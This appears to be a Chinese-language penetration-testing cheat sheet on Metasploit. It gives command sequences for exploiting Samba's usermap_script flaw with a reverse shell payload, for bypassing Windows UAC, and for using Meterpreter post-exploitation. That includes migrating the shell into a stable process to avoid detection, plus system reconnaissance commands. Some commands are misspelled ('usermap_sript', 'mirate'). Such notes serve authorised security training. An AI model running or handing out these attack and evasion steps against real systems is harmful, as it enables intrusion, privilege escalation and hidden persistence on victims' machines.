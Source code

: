 
#### 漏洞利用
收集完信息后，选择正确的exploit，payload

这里假设是Samba
`info exploit/multi/samba/usermap_sript`,  可以查看到利用成功率`Rank`越高，成功率越大
`use exploit/multi/samba/usermap_sript`
`show options`
`set PAYLOAD cmd/unix/reverse`
... ... 


#### Bypass UAC
```bash
use exploit/windows/local/bypassuac
set session 1
run
```


#### Meterpreter（属于后渗透攻击）
>Metasploit框架中的一个扩展模块

作为`溢出成功以后的`攻击载荷使用，攻击载荷在溢出攻击成功以后给我们返回一个控制通道。使用它作为攻击载荷能够获得目标系统的一个Meterpreter shell的链接
https://www.cnblogs.com/backlion/p/9484949.html
```bash
Meterpreter shell作为渗透模块有很多有用的功能，比如添加一个用户、隐藏一些东西、打开shell、得到用户密码、上传下载远程主机的文件、运行cmd.exe、捕捉屏幕、得到远程控制权、捕获按键信息、清除应用程序、显示远程主机的系统信息、显示远程机器的网络接口和IP地址等信息。另外Meterpreter能够躲避入侵检测系统。在远程主机上隐藏自己,它不改变系统硬盘中的文件,因此HIDS[基于主机的入侵检测系统]很难对它做出响应。此外它在运行的时候系统时间是变化的,所以跟踪它或者终止它对于一个有经验的人也会变得非常困难。


# 优势
- 纯内存工作模式，不需要对内存进行写入操作
- 使用加密通信协议，且可以同时与几个信道通信
- 在被攻击进程内工作，不需要创建新的进程
- 易于在多进程之间迁移
- 平台通用
```

**进程迁移**
刚获取Meterpreter shell的时候，是脆弱的(用户随时可能关闭)，所以第一时间是移动shell，把它和一个稳定的进程绑定在一起，而不需要对磁盘进行任何写入操作(更不易被发现)
```bash
ps    # 获取目标正在运行的进程
getpid    # 查看Meterpreter shell的进程号
mirate 448    # 把shell移动到PID为448的进程里(因为这里这个稳定，看情况来吧)

getpid  # 发现shell的进程迁移OK(原来的进程会自动关闭，如果没关闭就手动关掉：kill xxx_pid)

# 自动迁移进程指令(系统会自动寻找合适的进程然后迁移)
run post/windows/manage/migrate
```



**常用命令**
```bash
########## 系统命令（收集系统信息）
systeminfo	# 查看系统信息
run post/windows/gather/checkv    # 检查是否为虚拟机
idletime    # 目标机器最近运行时间

ifconfig/ipconfig 	# 查看网卡信息
route	# 查看路由信息，设置路由（做跳板用）

background		# 把会话放到后台，这个会话继续保持
sessions     # 查看会话列表
sessions -i 2	# 进入切回会话2

getuid	# 获取当前用户id权限
```